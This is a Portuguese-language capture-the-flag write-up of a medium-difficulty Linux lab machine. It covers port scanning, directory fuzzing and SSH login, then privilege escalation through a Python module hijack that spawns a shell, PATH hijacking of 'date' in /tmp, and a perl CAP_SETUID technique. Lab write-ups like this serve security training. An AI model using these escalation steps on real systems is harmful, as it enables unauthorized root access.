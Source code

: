 #Difficult : Medium #OS : Linux
***
## Port scan
Começo fazendo a enumeração das postas para saber qual a superfície de ataque.
```sh
nmap 10.10.x.x -sC -sV -Pn -A -oN scan_tcp
```
![[Pasted image 20250523195620.png]]
## Web Fuzzing
Temo um site rodando.
```http
http://10.10.x.x
```
![[Pasted image 20250523200401.png]]

```sh
ffuf -u http://10.10.x.x/FUZZ -w /usr/share/Discovery/Web-Content/big.txt
```
![[Pasted image 20250523200339.png]]

Em `/img` temos as imagens do site, em `/poem` temos um poema, e em `/r` temo uma mensagem interessante.
```http
http://10.10.x.x/r
```
![[Pasted image 20250523200739.png]]

Então refiz o `fuzzing` até chegar em `http://10.10.x.x/r/a/b`, a partir desse ponto já tinha entendido que seria `10.0.x.x/r/a/b/b/i/t`.
```http
http://10.0.x.x/r/a/b/b/i/t
```
![[Pasted image 20250523201000.png]]

Ao chegar nessa página verifiquei o conteúdo `html` da página.
![[Pasted image 20250523201129.png]]
## Lateral Movement
Temos então um usuário e uma credencial. Podemos fazer login no `ssh` com essas credenciais.
```sh
ssh alice@10.10.x.x
```
![[Pasted image 20250523201525.png]]

Podemos então ver quais comandos podemos executar como outro usuário.
```sh
sudo -l
```
![[Pasted image 20250523201910.png]]

Primeiro vejo qual conteúdo do `script`, e qual possibilidades temos.
```sh
cat ./walrus_and_the_carpenter.py
```
![[Pasted image 20250523203728.png]]
![[Pasted image 20250523203751.png]]

Ele faz a importação do módulo random, podemos criar um arquivo com esse mesmo nome, assim ele fará a importação do nosso arquivo.
```python
from os import system
system("/bin/bash")
```
![[Pasted image 20250523204409.png]]
## root
Perfeito, conseguimos personificar o usuário `rabbit`, como não tenho sua senha, não podemos ver os comandos que podem ser utilizados como outro usuário. Então apenas enumerei a `home` desse usuário. Temos um `script` que pertence ao `root`.

Na saída desse comando temos uma `string` semelhante a saída do comando `date`.
![[Pasted image 20250523205000.png]]

Para confirmar isso vou criar um script em `/tmp` de nome `date`.
```sh
vim /tmp/date
```
![[Pasted image 20250526073745.png]]
```sh
chmod +x /tmp/date
export PATH=/tmp:$PATH
```

Após a execução, conseguimos nos tornar o usuário `hatter`.
![[Pasted image 20250526074012.png]]

Na pasta `home` deste usuário temos sua senha, podemos usar para logar como `hatter`, pois nosso `gid` ainda está como o do `rabbit`.
![[Pasted image 20250526075225.png]]

Fiz uma enumeração básica e encontrei alguns binários com capabilities que podemos explorar.
![[Pasted image 20250526075605.png]]

Os dois binários de `perl` também pertencem ao nosso grupo, o que significa que podemos executa-lo. No [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) temos uma forma de escalar privilégio com a capabilitie `CAP_SETUID`. Após a execução, podemos ir a pasta `home` de `alice` e pegar a `flag` de `root`.
![[Pasted image 20250526080133.png]]
***
![[Pasted image 20250526080420.png]]